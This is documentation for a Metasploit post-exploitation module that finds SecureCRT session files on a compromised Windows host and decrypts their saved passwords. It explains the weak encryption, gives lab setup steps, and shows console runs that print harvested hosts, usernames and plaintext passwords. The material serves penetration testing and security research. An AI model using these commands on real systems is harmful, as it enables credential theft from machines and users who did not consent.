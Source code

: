 ## Vulnerable Application

All [SecureCRT](https://www.vandyke.com/cgi-bin/releases.php?product=securecrt) installations are affected, regardless
of which OS they are installed on, since they all use the same encryption mechanisms described by HyperSine in
his [GitHub paper](https://github.com/HyperSine/how-does-SecureCRT-encrypt-password).
Note that at the moment this module only supports exploiting Windows machines.

### Overview
All versions of SecureCRT have an option to allow users to store an encrypted copy of their session information on the
local computer, allowing them to easily restart a session without having to reenter all the connection details such as
the host, username, and password. These details are stored in a local session file, and SecureCRT will additionally
encrypt the password with AES encryption.

Unfortunately for SecureCRT users, the encryption mechanism used uses a weak IV of all 0's, and the encryption
keys that are utilized to encrypt the passwords have been publicly reversed and documented by HyperSine
in [his GitHub paper](https://github.com/HyperSine/how-does-SecureCRT-encrypt-password).

In addition, HyperSine also published a PoC script that allows users to decrypt SecureCRT session files, regardless
of the version of SecureCRT installed. The only limitation is that users must know the SecureCRT configuration password
if one was set at installation. At the time of writing, September 11, 2020, it appears that Vandyke, the creators of
SecureCRT, have still not changed the implementation details for this session encryption algorithm.

This module ports the work from HyperSine and implements it in a Metasploit module that allows users to easily retrieve
any SecureCRT session files from a compromised Windows machine and then decrypt the session passwords where its possible
to do so. All session information retrieved will be stored a Metasploit loot file, along with the password if
it can be decrypted.

### Setup Steps

1. Download the latest installer of SecureCRT from https://www.vandyke.com/cgi-bin/releases.php?product=securecrt.
   You will need a valid login, which can be obtained by completing the registration form at
   https://www.vandyke.com/cgi-bin/download_application.php?pid=scrt_x64_873&force=1, after which an
   email will be sent to you with the valid login details.
2. Follow the installer's prompts to install the software. Select all the default settings.
3. Once everything has been installed, start SecureCRT. A prompt will appear asking if one wants to set a
   configuration passphrase to encrypt sensitive data such as saved passwords and login actions. Set a
   passphrase of your choice here, but be sure to remember it.
4. Set up a SSH server on your target. For Windows 10 v1809 and later and
   Windows Server 2019 and later, this can be done by running the PowerShell
   command `Add-WindowsCapability -Online -Name OpenSSH.Server~~~~0.0.1.0`,
   followed by `Start-Service sshd`.

## Verification Steps

  1. Use SecureCRT to login to a SSH server of your choosing. When logging in,
     remember to select the check boxes to save the username (should be selected
     by default), as well as the checkbox to save the account password.
  3. Get a `meterpreter` session on the Windows host running SecureCRT.
  4. Do: `run post/windows/gather/credentials/securecrt`
  5. Optional: Run `set PASSPHRASE *SecureCRT configuration passphrase*` if a configuration
     passphrase was set for SecureCRT and you are aware of what its value is.
  5. If the session file was saved on the target, the module will print out the details
     of the host and port that the user connected to, as well as which username the user
     signed in with and the plaintext version of the password that was used.

## Options

### PASSPHRASE
The configuration password that was set when SecureCRT was installed, if one was supplied.
Note that if this value is not supplied and SecureCRT was set up to use a configuration password,
it will not be possible to decrypt the encrypted SecureCRT passwords that are retrieved.

### SESSION_PATH
The path to the SecureCRT session directory on the target's computer. By default this is normally
stored at `C:\\Users\\*current user name*\\AppData\\Roaming\\VanDyke\\Config\\Sessions` if SecureCRT
is installed on the system, however SecureCRT also has a portable version that stores the session information
in a local folder along with the SecureCRT binary itself, allowing users to easily transfer their session
information between machines. In this case, users can set the `SESSION_PATH` option to the location
of the session directory within the portable folder to allow them to obtain SecureCRT session
information even if a portable version of SecureCRT is utilized on the target.

## Scenarios

### Windows Server 2019 Standard Edition with SecureCRT v8.7.3 Build 2279 (Configuration Password Enabled)
```
msf exploit(multi/handler) > use post/windows/gather/credentials/securecrt
msf post(windows/gather/credentials/securecrt) > info

       Name: Windows SecureCRT Session Information Enumeration
     Module: post/windows/gather/credentials/securecrt
   Platform: Windows
       Arch:
       Rank: Normal

Provided by:
  HyperSine
  Kali-Team <kali-team@qq.com>

Compatible session types:
  Meterpreter

Basic options:
  Name        Current Setting   Required  Description
  ----        ---------------   --------  -----------
  PASSPHRASE                    no        The configuration password that was set when SecureCRT was installed, if one was supplied
  SESSION                       yes       The session to run this module on.

Description:
  This module will determine if SecureCRT is installed on the target
  system and, if it is, it will try to dump all saved session
  information from the target. The passwords for these saved sessions
  will then be decrypted where possible, using the decryption
  information that HyperSine reverse engineered. Note that whilst
  SecureCRT has installers for Linux, Mac and Windows, this module
  presently only works on Windows.

References:
  https://github.com/HyperSine/how-does-SecureCRT-encrypt-password/blob/master/doc/how-does-SecureCRT-encrypt-password.md

msf post(windows/gather/credentials/securecrt) > set SESSION 1
SESSION => 1
msf post(windows/gather/credentials/securecrt) > set Passphrase whatabadpassword
Passphrase => whatabadpassword
msf post(windows/gather/credentials/securecrt) > run

[*] Gathering SecureCRT session information from WIN-M5JU6L5RA9L
[*] Searching for session files in C:\Users\normal\AppData\Roaming\VanDyke\Config\Sessions
SecureCRT Sessions
==================

Filename           Protocol  Hostname   Port  Username              Password
--------           --------  --------   ----  --------              --------
127.0.0.1 (1).ini  telnet    127.0.0.1  23    RAPID7\Administrator  thePassword123!
127.0.0.1 (2).ini  ssh2      127.0.0.1  22    Administrator         thePassword123!
127.0.0.1 (3).ini  ssh2      127.0.0.1  22    Administrator
127.0.0.1.ini      telnet    127.0.0.1  23

msf post(windows/gather/credentials/securecrt) >
```

### Windows Server 2019 Standard Edition with SecureCRT v8.7.3 Build 2279 (Configuration Password Enabled, But No Password Provided)
```
msf exploit(multi/handler) > use post/windows/gather/credentials/securecrt
msf post(windows/gather/credentials/securecrt) > info

       Name: Windows SecureCRT Session Information Enumeration
     Module: post/windows/gather/credentials/securecrt
   Platform: Windows
       Arch:
       Rank: Normal

Provided by:
  HyperSine
  Kali-Team <kali-team@qq.com>

Compatible session types:
  Meterpreter

Basic options:
  Name        Current Setting   Required  Description
  ----        ---------------   --------  -----------
  PASSPHRASE                    no        The configuration password that was set when SecureCRT was installed, if one was supplied
  SESSION                       yes       The session to run this module on.

Description:
  This module will determine if SecureCRT is installed on the target
  system and, if it is, it will try to dump all saved session
  information from the target. The passwords for these saved sessions
  will then be decrypted where possible, using the decryption
  information that HyperSine reverse engineered. Note that whilst
  SecureCRT has installers for Linux, Mac and Windows, this module
  presently only works on Windows.

References:
  https://github.com/HyperSine/how-does-SecureCRT-encrypt-password/blob/master/doc/how-does-SecureCRT-encrypt-password.md

msf post(windows/gather/credentials/securecrt) > set SESSION 1
SESSION => 1
msf post(windows/gather/credentials/securecrt) > run

[*] Gathering SecureCRT session information from WIN-M5JU6L5RA9L
[*] Searching for session files in C:\Users\Administrator\AppData\Roaming\VanDyke\Config\Sessions
[-] It seems the user set a configuration password when installing SecureCRT!
[-] If you know the configuration password, please provide it via the PASSPHRASE option and then run the module again.
SecureCRT Sessions
==================

Filename       Hostname   Port  Username              Password
--------       --------   ----  --------              --------
127.0.0.1.ini  127.0.0.1  22    RAPID7\Administrator

[+] Session info stored in: /home/gwillcox/.msf4/loot/20200911125521_default_172.20.150.24_host.securecrt_s_951139.txt
[*] Post module execution completed
msf post(windows/gather/credentials/securecrt) >
```
